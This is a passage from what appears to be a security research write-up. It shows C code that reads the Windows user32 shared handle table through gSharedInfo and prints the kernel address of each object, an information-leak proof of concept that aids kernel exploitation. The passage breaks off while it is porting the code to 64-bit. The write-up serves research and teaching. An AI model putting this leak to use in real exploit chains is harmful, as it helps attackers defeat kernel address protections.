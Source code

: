 <pre>
typedef struct _HANDLEENTRY {
	PVOID	phead;
	ULONG	pOwner;
	BYTE	bType;
	BYTE	bFlags;
	WORD	wUniq;
}HANDLEENTRY, *PHANDLEENTRY;

typedef struct _SERVERINFO {
	DWORD	dwSRVIFlags;
	DWORD	cHandleEntries;
	WORD	wSRVIFlags;
	WORD	wRIPPID;
	WORD	wRIPError;
}SERVERINFO, *PSERVERINFO;

typedef struct _SHAREDINFO {
	PSERVERINFO	psi;
	PHANDLEENTRY	aheList;
	ULONG		HeEntrySize; 
	ULONG_PTR	pDispInfo;
	ULONG_PTR	ulSharedDelta;
	ULONG_PTR	awmControl; 
	ULONG_PTR	DefWindowMsgs; 
	ULONG_PTR	DefWindowSpecMsgs; 
}SHAREDINFO, *PSHAREDINFO;
</pre>
Next we need to get a handle to the user32 DLL and find the offset of the gSharedInfo variable.
<pre>
HMODULE hUser32 = LoadLibraryA("user32.dll");
PSHAREDINFO gSharedInfo = (PSHAREDINFO)GetProcAddress(hUser32, "gSharedInfo");
</pre>
Once the tables location in user space has been resolved we can just iterate over the handle table printing the kernel address of each object, its owner and the objects type.
<pre>
for (unsigned int i = 0; i < gSharedInfo->psi->cHandleEntries; i++) {
	HANDLEENTRY entry = gSharedInfo->aheList[i];
	if (entry.bType != 0) { //ignore free entries
		printf("Head: 0x%X, Owner: 0x%X, Type: 0x%X\r\n", entry.phead, entry.pOwner, entry.bType);
	}
}
</pre>
Here it is running on a Windows 7 32 bit machine:
![](/content/images/2017/02/SharedInfoHandleTable_info_leak_poc.PNG)
[](https://github.com/sam-b/windows_kernel_address_leaks/tree/master/SharedInfoHandleTable)
## #Windows 8/8.1 64 bits
A couple of minor changes were needed to port the code to 64 bits. First of all the SERVERINFO struct was expanded by 64 bits, adjusting the sizes of the dwSRVIFlags and cHandleEntries fields seemed to bring everything inline with how it looked before.
<pre>
typedef struct _SERVERINFO {
#ifdef _WIN64
	UINT64 dwSRVIFlags;